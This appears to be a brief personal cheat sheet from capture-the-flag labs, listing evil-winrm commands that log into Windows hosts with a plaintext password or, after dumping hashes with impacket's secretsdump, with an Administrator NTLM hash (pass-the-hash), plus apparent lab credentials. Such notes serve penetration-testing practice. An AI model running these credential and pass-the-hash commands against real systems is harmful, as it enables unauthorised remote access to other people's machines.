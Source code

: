 ## password
`evil-winrm -i 10.10.10.2 -u apt -p mesh`
`evil-winrm -i cicada.htb -p 'Q!3@Lp#M6b*7t*Vt' -u 'emily.oscars'`
## hash
#### for exasample
- impacket-secretdup to winrm
- command
  - `evil-winrm -u Administrator -H 2b87e7c93a3e8a0ea4a581937016f341 -i cicada.htb` 
